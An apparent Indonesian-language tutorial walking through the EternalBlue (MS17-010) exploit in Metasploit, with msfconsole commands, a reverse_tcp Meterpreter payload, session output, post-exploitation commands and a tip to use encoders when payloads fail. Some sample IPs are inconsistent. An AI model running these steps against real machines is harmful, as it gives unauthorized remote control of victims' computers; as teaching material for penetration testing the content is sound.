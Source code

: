 # Menjalankan Eksploitasi dengan Metasploit Framework

## A. Apa Itu Eksploitasi?

[Eksploitasi](https://en.wikipedia.org/wiki/Exploit_(computer_security)) adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:
- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## B. Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:
1. Pilih dan muat modul exploit
2. Tentukan target (`RHOST`, `RPORT`)
3. Pilih payload
4. Konfigurasi payload (`LHOST`, `LPORT`, `dll`)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## C. Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

   Tunggu sampai muncul prompt seperti ini:

   ```
   msf6 >
   ```

2. Cari Exploit yang Sesuai:

   ```
   search eternalblue
   ```

   Contoh hasil:

   ```
   exploit/windows/smb/ms17_010_eternalblue
   ```

3. Gunakan Exploit:

   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```

4. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

   Hasil output-nya seperti ini:

   ```
   msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

   Module options (exploit/windows/smb/ms17_010_eternalblue):

      Name           Current Setting  Required  Description
      ----           ---------------  --------  -----------
      RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
      RPORT          445              yes       The target port (TCP)
      SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
      SMBPass                         no        (Optional) The password for the specified username
      SMBUser                         no        (Optional) The username to authenticate as
      VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
      VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.42     yes       The listen address (an interface may be specified)
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      1   Windows 7



   View the full module info with the info, or info -d command.
   ```
   
5. Setting Target dan Payload:

   ```
   set RHOSTS 192.168.1.10
   set RPORT 445
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.5
   set LPORT 4444
   ```

6. Jalankan Exploit:

   ```
   exploit
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [*] Sending stage (203846 bytes) to 192.168.1.10
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

   meterpreter > 
   ```

   Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

   1. Melihat informasi sistem target:

      ```
      sysinfo
      ```

   2. Menampilkan User ID (UID):

      ```
      getuid
      ```

   3. Membuka command shell (cmd.exe) dari mesin korban:

      ```
      shell 
      ```

## D. Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting `RHOST/LHOST` |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## E. Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:
1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

> Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.
